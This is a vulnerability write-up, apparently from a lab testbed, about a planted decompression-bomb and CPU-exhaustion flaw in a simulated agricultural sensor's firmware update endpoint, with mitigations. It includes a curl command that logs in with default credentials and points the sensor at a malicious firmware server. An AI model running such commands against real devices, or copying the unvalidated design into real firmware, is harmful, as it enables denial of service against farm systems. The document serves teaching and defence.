


# Resource Exhaustion Vulnerability Details

This document provides detailed technical information about the Resource Exhaustion vulnerability implemented in the VAST framework. This vulnerability demonstrates how attackers can exploit the firmware update process to cause denial of service conditions in agricultural IoT sensors.

## Vulnerability Overview

The resource exhaustion vulnerability is embedded within the firmware update process of the temperature sensors. When exploited, it causes sensors to become unresponsive or significantly delayed in reporting temperature readings, which could have severe consequences in time-sensitive agricultural environments where environmental conditions directly impact crop health.

## Technical Implementation

The vulnerability exists in the firmware update endpoint (`/firmware/update`) which processes specially crafted firmware files that trigger resource-intensive operations. The implementation introduces two key vulnerabilities:

1. **Decompression bomb**: The code accepts an arbitrary compression ratio from the firmware file without validation, allowing attackers to claim unreasonable ratios (e.g., 10,000:1) that cause excessive memory allocation.

2. **CPU exhaustion**: After allocating memory, the code performs computationally intensive hash operations on each section of the expanded data, consuming significant CPU resources.

The vulnerability exploits a common weakness in embedded systems: trusting metadata contained within files without proper validation. This is particularly relevant for agricultural IoT sensors, which often have limited resources and may not implement appropriate resource limiting or input validation.

## Attack Architecture



*This diagram illustrates the architecture and sequence of actions in this attack scenario. The attacker deploys a malicious firmware server containing specially crafted firmware files with excessive compression ratios. When a victim sends a firmware update request to the temperature sensor, it downloads and processes the malicious firmware, triggering resource exhaustion.*

## Attack Execution

The attack is executed using HTTP requests that trigger the firmware update process with malicious firmware files of varying compression ratios:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
     -d '{"firmware_url": "http://malicious-firmware-server:38888/severe_firmware.sh", "version": "1.2.3-SEVERE"}' \
     http://localhost:12384/firmware/update
```

## Resource Consumption Patterns

The attack produces distinctive resource utilization patterns that can be observed through monitoring tools:



*This graph shows resource utilization metrics before and during resource exhaustion attacks (from 21:16:16) where CPU usage and memory consumption spike dramatically. The impact of the attack can cause complete sensor unresponsiveness.*

## Vulnerability Mechanics

This vulnerability exploits three common weaknesses in IoT firmware update processes:

1. **Trust in file metadata**: The code implicitly trusts the compression ratio claimed in the file header without verification.
2. **Lack of resource limits**: The implementation attempts to allocate memory proportional to the claimed ratio without appropriate bounds checking.
3. **Inefficient processing**: The code performs CPU-intensive operations on the entire expanded data, creating a sustained load rather than a brief spike.

When combined, these weaknesses allow a relatively small input file (10-50KB) to consume gigabytes of memory and monopolize CPU resources, demonstrating the concept of a "decompression bomb" or "zip bomb" attack customized for IoT environments.

## Security Implications

The resource exhaustion vulnerability has several significant implications for agricultural IoT deployments:

1. **Availability impact**: In time-sensitive agricultural settings, unresponsive temperature sensors could fail to detect critical environmental conditions, potentially leading to crop damage or loss.
   
2. **Cascading failures**: Resource-exhausted sensors may impact other components in the IoT ecosystem, as environmental control systems wait for sensor data that never arrives or arrives too late.
   
3. **Stealth attacks**: Unlike more obvious attacks that cause immediate failure, resource exhaustion can be calibrated to cause intermittent issues that are difficult to diagnose and may be mistaken for hardware failures.
   
4. **Attack persistence**: The vulnerability remains exploitable even with proper authentication, as it leverages a legitimate function (firmware updates) rather than an obviously malicious endpoint.

## Mitigation Strategies

Based on our analysis, effective mitigations for this vulnerability should include:

- Validating claimed compression ratios against reasonable maximum values
- Implementing resource consumption limits at the container and application levels
- Adding timeout mechanisms for resource-intensive operations
- Verifying firmware integrity through cryptographic signatures before processing
- Monitoring resource utilization patterns to detect anomalous behavior

This vulnerability highlights the importance of considering resource exhaustion attacks in security threat modeling for agricultural IoT systems, particularly for devices that operate in resource-constrained environments where availability is critical for crop health and yield.